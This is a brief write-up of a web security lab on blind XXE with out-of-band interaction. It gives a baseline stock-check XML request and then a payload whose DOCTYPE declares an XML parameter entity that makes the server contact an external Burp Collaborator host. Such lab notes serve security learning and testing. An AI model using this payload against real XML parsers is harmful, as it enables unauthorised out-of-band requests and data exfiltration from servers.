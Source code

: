 # Blind XXE with out-of-band interaction via XML parameter entities

## This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

## To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator.

from lab 3

---

### step 1

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>
</productId><storeId>1</storeId></stockCheck>
```

### step2

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://2nq8dmq87te46hasvrn51j7vemkd86wv.oastify.com"> %xxe; ]>
<stockCheck><productId>
</productId><storeId>1</storeId></stockCheck>
```
